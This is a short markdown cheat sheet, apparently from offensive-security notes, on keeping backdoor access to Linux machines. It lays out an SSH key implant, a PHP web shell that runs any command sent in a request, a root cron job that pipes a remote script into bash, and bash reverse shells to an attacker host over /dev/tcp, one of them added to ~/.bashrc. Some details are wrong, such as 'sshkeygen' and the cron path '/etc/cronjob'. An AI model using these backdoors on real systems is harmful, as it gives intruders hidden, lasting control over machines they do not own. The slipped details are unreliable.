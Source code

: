 # Linux persistence/backdoors

## SSH backdoor

Generate new keypair.

```bash
sshkeygen
```

Add your public key to `authorized_keys` on target machine.

```bash
chmod 600 id_rsa
ssh -i id_rsa USER@RHOST
```

## PHP backdoors

Webroot usual location: `/var/www/html`

```php
<?php
    if (isset($_REQUEST['yz'])) {
        echo "<pre>" . shell_exec($_REQUEST['yz']) . "</pre>";
    }
?>
<form action="" method="get">
<input type="text" id="yz" name="yz">
<input type="submit" value="Submit">
</form> 
```

## Cron jobs

Cron jobs are located in: `/etc/cronjob`

```
* *     * * *   root    curl http://RHOST/shell.php | bash
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```

## bashrc backdoor

Waiting for user to login.

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

## More...

(airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)[https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c]
